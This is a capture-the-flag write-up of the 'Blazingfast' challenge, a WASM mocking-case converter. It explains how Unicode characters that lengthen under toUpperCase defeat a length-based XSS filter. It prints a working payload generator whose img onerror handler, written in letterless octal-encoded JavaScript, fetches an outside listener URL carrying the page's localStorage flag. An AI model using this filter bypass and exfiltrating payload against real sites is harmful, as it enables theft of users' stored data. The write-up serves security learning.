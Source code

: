 ## Blazingfast

In this chall, we are given a blazing fast MoCkInG CaSe converter written by WASM. Take a look at its source code

index file:

```javascript
    let blazingfast = null;

function mock(str) {
	blazingfast.init(str.length);

	if (str.length >= 1000) return 'Too long!';

	for (let c of str.toUpperCase()) {
		if (c.charCodeAt(0) > 128) return 'Nice try.';
		blazingfast.write(c.charCodeAt(0));
	}

	if (blazingfast.mock() == 1) {
		return 'No XSS for you!';
	} else {
		let mocking = '', buf = blazingfast.read();

		while(buf != 0) {
			mocking += String.fromCharCode(buf);
			buf = blazingfast.read();
		}

		return mocking;
	}
}

function demo(str) {
	document.getElementById('result').innerHTML = mock(str);
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {	
	blazingfast = instance.exports;

	document.getElementById('demo-submit').onclick = () => {
		demo(document.getElementById('demo').value);
	}

	let query = new URLSearchParams(window.location.search).get('demo');

	if (query) {
		document.getElementById('demo').value = query;
		demo(query);
	}
})
```
blazingfast.c file:

```c
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

We can see that the `demo` function is called whenever we click on *Mock me* button. And the `demo` function will call `mock` function which was written in javascript. What this function do is get the length of our input before upper our string and it leads to [inconsistencies in length measurement of some Unicode characters](https://stackoverflow.com/questions/49895784/change-to-length-with-touppercase). I can explain it briefly: you have a special character and after uppercase that character, it will turn into 2 or 3 character. If we use a string of many special characters and its string length is greater than our payload, we can bypass the filter and inject XSS to the program.

However, when we input our payload, some of the input character will be convert to uppercase and the payload will not work. For example, `eval()` will work but `EVAL()` will not work. So we must find a way to bypass this. We can bypass this using the method was provided in this [post](https://techiavellian.com/constructing-an-xss-vector-using-no-letters). Please read that post to understand the method.

We can use the above method to create a function, then convert the inject code we want to octal to inject. We can't continue to use the above method because of the limit of the buffer (1000). Please remember that we must put our octal code in `"` `"` to make it work.

The payload will be like this: `<img src="x" onerror='fetch("https://ATTACKER_URL/?" + localStorage.getItem("flag"))'>` with the fetch part written with the method above. This is my code to create the payload. The url I use to listen to request is *https://en3lcrt2nuh0hsi.m.pipedream.net*, so I convert it to octal form and encode the url or it will not work

```python

payload = '<img src=1 onerror=\'""[(!1+"")[3]+(!0+"")[2]+({}+"")[2]][({}+"")[5]+({}+"")[1]+((""[(!1+"")[3]+(!0+"")[2]+({}+"")[2]])+"")[2]+(!1+"")[3]+(!0+"")[0]+(!0+"")[1]+(!0+"")[2]+({}+"")[5]+(!0+"")[0]+({}+"")[1]+(!0+"")[1]]("\\146\\145\\164\\143\\150\\050\\042\\150\\164\\164\\160\\163\\072\\057\\057\\145\\156\\063\\154\\143\\162\\164\\062\\156\\165\\150\\060\\150\\163\\151\\056\\155\\056\\160\\151\\160\\145\\144\\162\\145\\141\\155\\056\\156\\145\\164\\057\\077\\042\\053\\154\\157\\143\\141\\154\\123\\164\\157\\162\\141\\147\\145\\056\\147\\145\\164\\111\\164\\145\\155\\050\\042\\146\\154\\141\\147\\042\\051\\051")()\'>'
special_char = 'ﬃ'
print(special_char*300+requests.utils.quote(payload))

```

Then I use the output from the code above to paste it in the admin bot url. The url will be like this:

`https://blazingfast.mc.ax/?demo=<your payload>&submit=Submit`

After a while, I receive the flag

![success](https://live.staticflickr.com/65535/51868510312_cfd760c8b7_z.jpg)


You can solve this chall by another way which is used in this [post](https://19521646.gitbook.io/wu-ctf/dicectf).

I also read this [writeup](https://ctf.zeyu2001.com/2022/dicectf-2022/blazingfast?fbclid=IwAR31D10A-j2KTB54FDedcwtuE0mmcaqorThG3tb_A-9C46vWIl93xMeAGok) to be able to solve this challenge.